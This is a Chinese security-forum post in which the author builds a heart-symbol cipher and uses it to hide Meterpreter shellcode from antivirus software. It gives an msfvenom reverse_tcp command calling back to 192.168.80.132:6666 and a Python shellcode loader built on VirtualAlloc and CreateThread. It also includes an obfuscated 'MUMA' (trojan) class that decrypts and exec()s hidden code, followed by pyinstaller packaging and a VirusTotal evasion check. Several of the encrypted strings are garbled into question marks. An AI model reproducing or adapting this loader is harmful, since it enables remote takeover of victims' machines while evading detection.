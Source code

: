 ### 起因

由于学校被封了，老是呆在学校很闲，于是前阵子写了个加密加密小工具，Eternal Love

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-63cc94c3c9296484f9f08d61f8f8a38dab0cfaff.png)

很可爱好吧，就说这加密有没有艺术细胞吧，于是，问题来了，这玩意儿不会中看不中用吧........  
很好，当你提出这个疑问说明你已经是卷王了,作为当代大好青年，除了每天挖挖漏洞，水水群，休闲时刻写了个撩妹辅助软件还得有实质作用？

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-19538cde6728bcfd4b6f8ddeb45326395ea15ee7.png)

简单说说这个加密吧，其实很简单，就是将输入的字符转ascii，再转八进制，然后准备一份'我喜欢你'的字符串，进行ascii转成数字，去重，将上面的八进制数据，根据上面的对应的数字获取索引值，将索引值保存到列表里，再进行三次与时间戳和cpu的异或，再将获取的数据与时间戳进行简单的运算，最终得到了一串数字，将这些数字与对于的符号进行替换，得到上面那种花里胡哨的玩意儿，听懂了吗？

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-77419d39b7c32b39708f0c1ad0eabe79d3a53f33.png)

抱歉，我的表述不太好，画个图简单的看看吧，咋们主要看的是思路.....

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-fd655c457abf5b9c8e57ccbb2df631e0fa740437.png)

解密的话就是反过来写一遍，逻辑还是比较简单的，根据如果想强行解密的话还是有点难度的吧....

写完工具后，感觉很无趣啊，我又没有女朋友，要你有何用？于是加密shellcode和相关的函数想法就应运而生，

我将解密的方法封装成了一个类，供程序解密的时候调用

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-f055d7e7e43030900a3dbae9ff020c71b5c21459.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-cd55a7fa9011898b5561692904eb9ab005bec321.png)

部分代码如上，提供一下思路，代码什么的就自己写了，也不是很难，还可以加上自己喜欢的东西上去。

前面介绍了加密的方式，那么接下来就是进行免杀小实验了。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-d5b7751fc9d201b7423dee51d60cb0c94ffa1151.png)

由于免杀什么的都是最近开始研究，所以没有从底层入手，shellcode入手免杀是最好的方法，但是发现网上公开的加载的shellcode的代码好像都失效了，而且感觉分离加载shllcode有些麻烦.....被骂，尽管我也用...

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-16b9cda29910a11f585095e309b8800293761a5a.png)

虽然菜，但是我有一颗积极向上的心，我们用msf生成base64加密的c的shellcode：  
`msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.80.132 lport=6666 --encrypt base64 -f c`  
将生成的c代码去双引号，去换行，进行放加密函数里加密

这里看看没加密前的python的shellcode加密器代码：

```import
import base64

s = '''\x2f\x4f\x69\x50\x41\x41\x41\x41\x59\x49\x6e\x6c\x4d\x64\x4a
\x6b\x69\x31\x49\x77\x69\x31\x49\x4d\x69\x31\x49\x55\x4d\x66
\x2b\x4c\x63\x69\x67\x50\x74\x30\x6f\x6d\x4d\x63\x43\x73\x50
\x47\x46\x38\x41\x69\x77\x67\x77\x63\x38\x4e\x41\x63\x64\x4a
\x64\x65\x39\x53\x56\x34\x74\x53\x45\x49\x74\x43\x50\x41\x48
\x51\x69\x30\x42\x34\x68\x63\x42\x30\x54\x41\x48\x51\x69\x31
\x67\x67\x41\x64\x4e\x51\x69\x30\x67\x59\x68\x63\x6c\x30\x50
\x44\x48\x2f\x53\x59\x73\x30\x69\x77\x48\x57\x4d\x63\x43\x73
\x77\x63\x38\x4e\x41\x63\x63\x34\x34\x48\x58\x30\x41\x33\x33
\x34\x4f\x33\x30\x6b\x64\x65\x42\x59\x69\x31\x67\x6b\x41\x64
\x4e\x6d\x69\x77\x78\x4c\x69\x31\x67\x63\x41\x64\x4f\x4c\x42
\x49\x73\x42\x30\x49\x6c\x45\x4a\x43\x52\x62\x57\x32\x46\x5a
\x57\x6c\x48\x2f\x34\x46\x68\x66\x57\x6f\x73\x53\x36\x59\x44
\x2f\x2f\x2f\x39\x64\x61\x44\x4d\x79\x41\x41\x42\x6f\x64\x33
\x4d\x79\x58\x31\x52\x6f\x54\x48\x63\x6d\x42\x34\x6e\x6f\x2f
\x39\x43\x34\x6b\x41\x45\x41\x41\x43\x6e\x45\x56\x46\x42\x6f
\x4b\x59\x42\x72\x41\x50\x2f\x56\x61\x67\x70\x6f\x77\x4b\x67
\x42\x67\x32\x67\x43\x41\x42\x6f\x4b\x69\x65\x5a\x51\x55\x46
\x42\x51\x51\x46\x42\x41\x55\x47\x6a\x71\x44\x39\x2f\x67\x2f
\x39\x57\x58\x61\x68\x42\x57\x56\x32\x69\x5a\x70\x58\x52\x68
\x2f\x39\x57\x46\x77\x48\x51\x4b\x2f\x30\x34\x49\x64\x65\x7a
\x6f\x5a\x77\x41\x41\x41\x47\x6f\x41\x61\x67\x52\x57\x56\x32
\x67\x43\x32\x63\x68\x66\x2f\x39\x57\x44\x2b\x41\x42\x2b\x4e
\x6f\x73\x32\x61\x6b\x42\x6f\x41\x42\x41\x41\x41\x46\x5a\x71
\x41\x47\x68\x59\x70\x46\x50\x6c\x2f\x39\x57\x54\x55\x32\x6f
\x41\x56\x6c\x4e\x58\x61\x41\x4c\x5a\x79\x46\x2f\x2f\x31\x59
\x50\x34\x41\x48\x30\x6f\x57\x47\x67\x41\x51\x41\x41\x41\x61
\x67\x42\x51\x61\x41\x73\x76\x44\x7a\x44\x2f\x31\x56\x64\x6f
\x64\x57\x35\x4e\x59\x66\x2f\x56\x58\x6c\x37\x2f\x44\x43\x51
\x50\x68\x58\x44\x2f\x2f\x2f\x2f\x70\x6d\x2f\x2f\x2f\x2f\x77
\x48\x44\x4b\x63\x5a\x31\x77\x63\x4f\x37\x38\x4c\x57\x69\x56
\x6d\x6f\x41\x55\x2f\x2f\x56
'''
shellcode = base64.b64decode(s)

rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode), 0x1000, 0x40)
ctypes.windll.kernel32.RtlMoveMemory(rwxpage, ctypes.create_string_buffer(shellcode), len(shellcode))
handle = ctypes.windll.kernel32.CreateThread(0, 0, rwxpage, 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)
```

这里生成后肯定被杀的，那么我们在将其中部分敏感函数进行加密：

```\#
import ctypes  
import base64  
import em  

class MUMA():  
    def zx(self):  
        log = '''  
                   \_ \_   \_                       \_   \_         \_ \_                  (\_) | | |                     | | | |       | (\_)        
         \_\_      \_\_\_| |\_| |\_\_   \_\_\_ \_ \_\_ \_\_\_  \_\_| | | |\_ \_   \_| |\_ \_ \_\_    
         \\ \\ /\\ / / | \_\_| '\_ \\ / \_ \\ '\_\_/ \_ \\/ \_\` | | \_\_| | | | | | '\_ \\   
          \\ V  V /| | |\_| | | |  \_\_/ | |  \_\_/ (\_| | | |\_| |\_| | | | |\_) |  
           \\\_/\\\_/ |\_|\\\_\_|\_| |\_|\\\_\_\_|\_|  \\\_\_\_|\\\_\_,\_|  \\\_\_|\\\_\_,\_|\_|\_| .\_\_/                                                                  | |      
|\_|      
        百度说:  
                和郁金香待在一起约1-2个小时最有变化感觉到头晕目眩，  
                严重可导致植物中毒，过多的接触郁金香会使人的毛发逐渐脱落。                所以说郁金香是有毒的对吧？  

        '''        print(log)  
        sc = '?????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????'  
        cpuzy = '352'  
        cpuzy = int(cpuzy)  
        sjc = '1652436404'  
        sjc = int(sjc)  
        sl = em.EZH  
        emdgs = sl.hysy(sc\=sc, cpuzy\=cpuzy, sjc\=sjc, self\='')  
        ba = base64.b64decode(emdgs)  
        shellcode = ba  
        wm1 = '??????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????'  
        cpu\_x = int(3462)  
        sjc\_x = int(1652439982)  
        mm \= sl.hysy(sc\=wm1, cpuzy\=cpu\_x, sjc\=sjc\_x, self\='')  
        rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode), 0x1000, 0x40)  
        app = '?????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????'  
        cpu\_l = int('9735')  
        sjc\_l = int('1652439328')  
        zx = sl.hysy(sc\=app, cpuzy\=cpu\_l, sjc\=sjc\_l, self\='')  
        exec(zx)  
        mw = '?????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????'  
        cpu\_ll = int(28248)  
        sjc\_ll = int(1652439853)  
        mmmm = sl.hysy(sc\=mw, cpuzy\=cpu\_ll, sjc\=sjc\_ll, self\='')  
        handle \= ctypes.windll.kernel32.CreateThread(0, 0, rwxpage, 0, 0, 0)  
        exec(mmmm)  
    def zxcx(self):  
        app = MUMA()  
        app.zx()  
if \_\_name\_\_ == '\_\_main\_\_':  
    MUMA.zxcx(self\='')
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-322e18965258010b335c5c35df275e13702074d7.png)

上面那些爱心不知道为什么变成?????了，可能是编码原因，  
上面那个em是我封装的解密代码

尝试是否可以上线：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-707e7c43196fdab614c7d0155cbbe3a1e75bad73.png)

ok，没有问题，我们用pyinstaller打包，放vt测试一下免杀性

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-c0d4bc7c395813623986f7ed3e7b724c9ce22641.png)

个人感觉用python写的，pyinstaller打包免杀性应该还是可以的....

各位师傅别骂，这个就单纯谈谈个人的思路。